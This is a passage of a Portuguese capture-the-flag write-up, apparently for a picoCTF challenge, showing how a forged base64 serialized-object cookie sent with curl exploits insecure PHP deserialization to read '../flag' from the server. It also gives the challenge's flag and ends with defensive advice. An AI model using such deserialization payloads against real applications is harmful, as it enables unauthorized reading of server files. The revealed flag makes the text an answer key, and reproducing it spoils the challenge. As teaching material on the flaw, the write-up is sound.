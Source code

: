 <img width="1357" height="605" alt="image" src="https://github.com/user-attachments/assets/dc31935d-211d-49be-a153-9c8712fa2ac5" />

Após substituir o valor do cookie login no navegador e recarregar a página, a aplicação passou a identificar o cliente como `guest` (ou seja, a interface não mostrou diretamente a flag). Contudo, o payload inserido no cookie já aponta para `../flag no servidor`, a flag não aparece no HTML renderizado pelo navegador, mas pode ser obtida fazendo uma requisição direta ao endpoint que processa o cookie.

Para isso, no terminal, enviou-se uma requisição HTTP incluindo o cookie malicioso, através do curl:
```
curl -s -b "login=TzoxMDoiYWNjZXNzX2xvZyI6MTp7czo4OiJsb2dfZmlsZSI7czo3OiIuLi9mbGFnIjt9" http://mercury.picoctf.net:5428/authentication.php
```

Se tem como resposta:

<img width="661" height="205" alt="image" src="https://github.com/user-attachments/assets/022bf13d-ce58-4f0e-8e2e-97fec421563f" />


>`picoCTF{th15_vu1n_1s_5up3r_53r1ous_y4ll_c5123066}  `

## Conclusão
O desafio mostrou que o servidor fazia desserialização insegura. Como ele confiava em objetos enviados pelo usuário, foi possível ler arquivos sensíveis (../flag). Para evitar isso, é importante não desserializar dados do cliente, validar todas as entradas e proteger arquivos importantes.
